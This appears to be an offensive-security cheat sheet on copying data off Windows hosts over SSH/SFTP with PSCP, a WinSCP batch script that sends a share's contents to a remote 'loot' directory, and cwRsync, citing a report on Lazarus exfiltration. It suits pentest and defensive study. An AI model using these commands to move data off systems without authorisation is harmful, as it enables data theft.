 # SSH

## 01 - PSCP

`C:\> pscp.exe -4 [-P <PORT>] -pw <password> <source> <username>@<IP>:<destination>`

## 02 - WinSCP

TODO: Fill this info

`$ cat commands.txt`

---

```
option batch continue
option confirm off
open sftp://<username>:<password>@<IP> -hostkey=<fingerprint> -rawsettings Compression=1
lcd "//<IP>/<share_name>/path/to/directory/"
cd "/mnt/<loot | downloads>"
put "<directory>"
# synchronize remote -criteria=size
exit
```

`C:\> winscp.exe /script=commands.txt`

## 03 - CwRsync

### 2.1 - Setup

`C:\> curl -o cwrsync.zip https://itefix.net/dl/free-software/cwrsync_6.2.8_x64_free.zip`

```powershell
PS C:\> Invoke-Webrequest -UseBasicParsing -Uri https://itefix.net/dl/free-software/cwrsync_6.2.8_x64_free.zip -OutFile cwrsync.zip
Expand-Archive cwrsync.zip
Remove-Item cwrsync.zip
cd cwrsync/bin/
```

### 2.2 - Usage

`PS C:\cwrsync/bin> .\rsync.exe`

---
## References

- [Kaspersky: Lazarus Targets Defense Industry with Threatneedle](https://ics-cert.kaspersky.com/publications/reports/2021/02/25/lazarus-targets-defense-industry-with-threatneedle/)

- [WinSCP Command Line](https://winscp.net/eng/docs/commandline)

- [CwRsync](https://www.itefix.net/cwrsync)